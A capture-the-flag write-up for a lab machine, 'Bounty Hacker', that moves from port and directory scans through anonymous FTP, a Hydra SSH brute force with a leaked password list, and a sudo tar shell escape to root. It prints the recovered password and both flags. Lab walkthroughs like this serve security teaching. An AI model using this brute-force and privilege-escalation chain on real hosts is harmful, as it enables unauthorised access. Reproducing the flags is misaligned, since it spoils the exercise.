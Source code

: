 # Bounty Hacker - Easy

<details>
<summary>nmap scan</summary>

```nmap -T4 -p- -A 10.10.11.56```

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
ftp-syst:
    STAT:
    FTP server status:
        Connected to ::ffff:10.17.48.136
        Logged in as ftp
        TYPE: ASCII
        No session bandwidth limit
        Session timeout in seconds is 300
        Control connection is plain text
        Data connections will be plain text
        At session startup, client count was 1
        vsFTPd 3.0.3 - secure, fast, stable
End of status
ftp-anon: Anonymous FTP login allowed (FTP code 230)
    -rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
    -rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
ssh-hostkey:
    2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
    256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
    256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
    http-title: Site doesn't have a title (text/html).
    http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

</details>

<br>

* ffuf scan: ```ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.11.56/FUZZ -s```

```markdown
.htaccess
.htpasswd
.hta
images
server-status
```

* nikto scan: ```nikto -h 10.10.11.56```

```markdown
- Server: Apache/2.4.18 (Ubuntu)
- The anti-clickjacking X-Frame-Options header is not present.
- The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
- The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
- No CGI Directories found (use '-C all' to force check all possible dirs)
- Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
- IP address found in the 'location' header. The IP is "127.0.1.1".
- OSVDB-630: The web server may reveal its internal or real IP in the Location header via a request to /images over HTTP/1.0. The value is "127.0.1.1".
- Server may leak inodes via ETags, header found with file /, inode: 3c9, size: 5a789fef9846b, mtime: gzip
- Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
- OSVDB-3268: /images/: Directory indexing found.
- OSVDB-3233: /icons/README: Apache default file found.
```

* The website <http://10.10.11.56> contains some context to the question, but nothing much useful.

* Viewing the page source also does not give us any clue.

* However, we can use our hints from the enumeration to discover any exploit.

* The /images directory in the website contains only the image shown on the website itself, so nothing useful so far.

* As the ftp service on port 21 allows Anonymous login, we can check if there are any files there

* ```ftp 10.10.11.56``` (use anonymous as username)

```markdown
passive off (turns off passive mode)
binary (binary mode)
dir (shows two text files)
mget *.txt (get all files matching wildcard to local system)
```

* So, now we have two text files from the ftp server.

* The locks.txt file contains a list of usernames/passwords; we could use that while brute-forcing SSH using Hydra.

* The task.txt file contains the name 'Vicious' and mentions something about 'Red Eye'.

* We can now attempt to brute force SSH.

* Brute-force as lin: ```hydra -l lin -P locks.txt 10.10.11.56 ssh```

* This gives us the password RedDr4gonSynd1cat3

* We can login using SSH now: ```ssh lin@10.10.11.56```

* user.txt: ```THM{CR1M3_SyNd1C4T3}```

* We need to attempt privilege escalation now

* ```history``` shows us that someone before us has tried to clear the .bash_history file

* To find files with SUID bit set: ```find / -perm -u=s -type f 2>/dev/null```

* This does not give us any desirable output

* To check sudo rights: ```sudo -l```

* This shows that we can run /bin/tar as root

* Our next step is to check GTFObins for any exploits related to tar

* There does exist an exploit for tar: ```sudo /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh```

* This gives us the root access

* root.txt: ```THM{80UN7Y_h4cK3r}```
